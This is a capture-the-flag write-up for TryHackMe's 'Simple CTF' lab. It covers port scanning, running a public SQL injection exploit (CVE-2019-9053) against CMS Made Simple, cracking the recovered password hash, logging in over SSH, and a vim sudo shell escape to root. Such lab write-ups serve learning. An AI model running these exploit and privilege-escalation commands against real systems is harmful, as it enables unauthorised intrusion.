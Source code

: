 # Simple CTF
https://tryhackme.com/room/easyctf


## How many services are running under port 1000?
Nmap scan of machine returns:
21/tcp  open  syn-ack vsftpd 3.0.3
80/tcp   open  Apache httpd 2.4.18 ((Ubuntu))

Answer: 2

## What is running on the higher port?
2222/tcp open  OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

Answer: SSH

## What's the CVE you're using against the application? 
Gobuster scan returns:
/simple - CMS Made Simple version 2.2.8

Using searchsploit I check for potential vulns:
`searchsploit cms made simple 2.2.8`

Output: `CMS Made Simple < 2.2.10 - SQL Injection    php/webapps/46635.py`

Download exploit & copy to current dir:
`searchsploit -m php/webapps/46635.py ./46635.py`

Checked top of script for CVE reference:

Answer: CVE-2019-9053

## To what kind of vulnerability is the application vulnerable?
SQLI (SQL Injection) - As per title of CVE

## What's the password?
I downloaded 46635.py and modified it to run in python3 instead of python2 due to local my local setup and ran it using the following flags:
`python3 46635.py -u http://<ip>/simple/ --crack -w /usr/share/wordlists/rockyou_urf8.txt`

Output:
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
Answer: Password

## Where can you login with the details obtained?
Answer: SSH

## What's the user flag?
Logged in via ssh, cat user.txt

Answer: G00d j0b, keep up!

## Is there any other user in the home directory? What's its name?
`ls /home`

Answer: sunbath

## What can you leverage to spawn a privileged shell?
`sudo -l` List available sudo privs

Output:     (root) NOPASSWD: /usr/bin/vim

Checked GTFO bins for potential privesc
`sudo vim -c ':!/bin/sh'`

Answer: vim

## What's the root flag?
Privesc to root user & cat root.txt

Answer: W3ll d0n3. You made it!
